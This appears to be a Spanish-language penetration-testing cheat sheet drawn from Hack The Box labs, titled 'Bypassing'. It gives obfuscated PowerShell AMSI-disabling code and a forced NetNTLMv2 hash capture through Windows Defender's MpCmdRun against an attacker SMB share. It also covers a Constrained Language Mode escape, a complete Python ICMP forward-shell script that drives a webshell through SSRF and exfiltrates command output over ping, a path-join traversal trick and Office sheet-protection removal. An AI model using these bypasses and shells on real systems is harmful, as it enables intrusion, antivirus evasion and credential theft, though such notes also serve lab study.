 # Bypassing

## AMSI

### Automatización de WinRM

```null
*Evil-WinRM* PS C:\Users\melanie\Desktop> Bypass-4MSI

Info: Patching 4MSI, please be patient...

[+] Success!
```

### Corromper tarea (Condición de carrera)

```null
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)
```

```null
PS C:\Users\Sierra.Frye\Documents> 

$a='si';$b='Am';$Ref=[Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils'-f $b,$a)); $z=$Ref.GetField(('am{0}InitFailed'-f$a),'NonPublic,Static');$z.SetValue($null,$true)
```

## Obtención de hash NetNTLMv2 con Windows Defender

```null
*Evil-WinRM* PS C:\Program Files\Windows Defender> ./MpCmdRun.exe -Scan -ScanType 3 -File \\10.10.16.6\test
```

## CLM

### Detección

```null
[10.10.10.210]: PS> $ExecutionContext.SessionState.LanguageMode                                                       
ConstrainedLanguage
```

### PSSessions

```null
PS /home/rubbx/Desktop/HTB/Machines/Reel2> Enter-PSSession -ComputerName 10.10.10.210 -Credential $Cred -Authentication Negotiate
```

### Ejecución de comandos con funciones

```null
[10.10.10.210]: PS> function bypassCLM { whoami }
[10.10.10.210]: PS>bypassCLM
htb\k.svensson
```

## ICMP Forward Shell

```python
#!/usr/bin/env python3

import base64
import requests
import threading
from cmd import Cmd
from scapy.all import *
from urllib.parse import quote


class Term(Cmd):

    prompt = "[~] - "
    cmd_payload = """$cmd = '{cmd}'; $step=1000; $ping = New-Object System.Net.NetworkInformation.Ping; $opts = New-Object System.Net.NetworkInformation.PingOptions; $opts.DontFragment = $true; $res=(iex -command $cmd|out-string); $data = [System.Text.Encoding]::ASCII.GetBytes($res); $i=0; while($i -lt $data.length)"""


    def __init__(self):
        super().__init__()
        thread = threading.Thread(target=self.listen_thread, args=())
        thread.daemon = True
        thread.start()


    def listen_thread(self):
        sniff(filter="icmp and src 10.10.10.57", iface="tun0", prn=self.handle_icmp)


    def handle_icmp(self, pkt):
        print(pkt[Raw].load.decode(), end="")
        sys.stdout.flush()


    def default(self, args):
        cmd = self.cmd_payload.format(cmd=args)
        enccmd = quote(quote(base64.b64encode(cmd.encode('utf-16le')).decode()))
        requests.get(f'http://10.10.10.57:62696/test.asp?u=http://127.0.0.1:80/cmd.aspx?xcmd=powershell+-enc+{enccmd}')


term = Term()
try:
    term.cmdloop()
except KeyboardInterrupt:
    print()
```

## Python

Es posible eliminar la ruta que se obtiene de la ruta actual con ```getcwd()``` pasándole como argumento un path pero con una barra al principio

```null
python3
Python 3.11.2 (main, Feb 12 2023, 00:48:52) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.path.join(os.getcwd(), "public", "uploads", "test")
'/home/rubbx/Desktop/HTB/Machines/OpenSource/source/app/app/public/uploads/test'
```

En este ejemplo con la cadena ```/test```

```null
>>> os.path.join(os.getcwd(), "public", "uploads", "/test")
'/test'
```

### Cifrado documentos Office

Al descomprimir el documento, se puede eliminar el hash que contiene a la contraseña

```null
unzip Desktop_Phishing_Attempt.xlsx
```

```null
<sheetProtection algorithmName="SHA-512" hashValue="hFq32ZstMEekuneGzHEfxeBZh3hnmO9nvv8qVHV8Ux+t+39/22E3pfr8aSuXISfrRV9UVfNEzidgv+Uvf8C5Tg=="
```

```null
zip -r Desktop_Phishing_Attempt.xlsx *
```